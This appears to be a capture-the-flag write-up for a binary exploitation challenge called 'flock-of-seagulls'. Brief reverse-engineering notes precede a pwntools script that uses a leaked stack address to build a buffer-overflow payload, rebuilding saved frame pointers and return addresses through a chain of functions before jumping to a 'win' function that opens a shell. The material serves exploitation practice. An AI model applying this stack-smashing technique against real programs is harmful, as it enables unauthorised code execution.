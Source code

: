 # flock-of-seagulls

https://youtu.be/qA6ajf7qZtQ?si=q6Rm8rqf4xg_9z3w&t=1543

- ghidra, another `win` function which pops `/bin/sh`
- `func1` -> `func2` -> `func3` -> `func4` -> `func5` reads in input, here we buffer overflow it
- each of these functions are checking the return address
- there is also an output that leaks the stack pointer address
- gdb
- need to make sure that base pointers and return addresses are preserved properly


```py
# normal pwn tool stuff above ...

print(f'{hex(leak)=}')

payload = pwn.flat({
    16 * 8: leak + (0x7fffffffe4c0 - 0x7fffffffe420),
    17 * 8: 0x401276, # func4

    20 * 8: leak + (0x7fffffffe4e0 - 0x7fffffffe420),
    21 * 8: 0x4012a0, # func3

    24 * 8: leak + (0x7fffffffe500 - 0x7fffffffe420),
    25 * 8: 0x4012ca, # func2

    28 * 8: leak + (0x7fffffffe510 - 0x7fffffffe420),
    29 * 8: 0x4012f0, # func1

    30 * 8: leak + (0x7fffffffe520 - 0x7fffffffe420),

    31 * 8: 0x4012f2, # align stack pointer
    32 * 8: elf.sym['win']
})

p.sendlineafter(b'>', payload)
p.interactive()
```

